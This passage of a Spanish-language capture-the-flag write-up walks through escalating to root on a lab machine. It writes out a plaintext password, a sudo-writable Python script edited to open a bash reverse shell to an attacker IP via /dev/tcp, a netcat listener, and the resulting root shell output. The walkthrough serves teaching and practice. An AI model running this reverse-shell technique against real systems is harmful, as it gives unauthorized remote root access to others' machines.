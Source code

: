 Metemos como contraseña `t9sH76gpQ82UFeZ3GXZS` y veremos que somos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for freddy on 71afbc5c001e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User freddy may run the following commands on 71afbc5c001e:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py
```

Vemos que podemos ejecutar `maintenance.py` como el usuario `root` por lo que haremos lo siguiente:

Si enumeramos los permisos que tiene el archivo...

```shell
ls -la /opt/maintenance.py
```

Info:

```
-rw-r--r-- 1 freddy freddy 35 Mar 29  2024 /opt/maintenance.py
```

Vemos que el archivo es nuestro, por lo que podremos editarlo:

```shell
nano /opt/maintenance.py

#Dentro del nano
import subprocess
comando = "/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"
subprocess.run(comando, shell=True)
```

Guardamos esto y antes de ejecutarlo, nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora ejecutamos el script de la siguiente forma:

```shell
sudo python3 /opt/maintenance.py
```

Y si nos volvemos a la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.120.128] from (UNKNOWN) [172.17.0.2] 36316
┌──(root㉿71afbc5c001e)-[/opt]
└─# whoami
whoami
root
```

Veremos que ya seremos `root`, por lo que habremos terminado.
